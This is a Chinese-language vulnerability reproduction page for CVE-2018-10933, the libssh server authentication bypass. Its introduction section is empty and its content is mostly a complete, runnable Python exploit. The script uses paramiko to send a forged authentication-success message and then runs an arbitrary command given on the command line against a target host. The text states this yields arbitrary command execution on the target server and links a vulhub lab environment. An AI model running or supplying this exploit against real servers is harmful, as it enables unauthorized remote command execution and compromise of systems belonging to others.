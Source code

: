 （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

libssh的server-side state machine 0.7.6之前版本和0.8.4

三、复现过程
------------

    CVE-2018-10933.py
    #!/usr/bin/env python3
    import sys
    import paramiko
    import socket
    import logging

    logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
    bufsize = 2048


    def execute(hostname, port, command):
        sock = socket.socket()
        try:
            sock.connect((hostname, int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            client = transport.open_session(timeout=10)
            client.exec_command(command)

            # stdin = client.makefile("wb", bufsize)
            stdout = client.makefile("rb", bufsize)
            stderr = client.makefile_stderr("rb", bufsize)

            output = stdout.read()
            error = stderr.read()

            stdout.close()
            stderr.close()

            return (output+error).decode()
        except paramiko.SSHException as e:
            logging.exception(e)
            logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
        except socket.error:
            logging.debug("Unable to connect.")

        return None


    if __name__ == '__main__':
        print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

使用python3执行，即可在目标服务器上执行任意命令：

![2.png](resource/(CVE-2018-10933)Libssh服务端权限认证绕过漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/libssh/CVE-2018-10933/
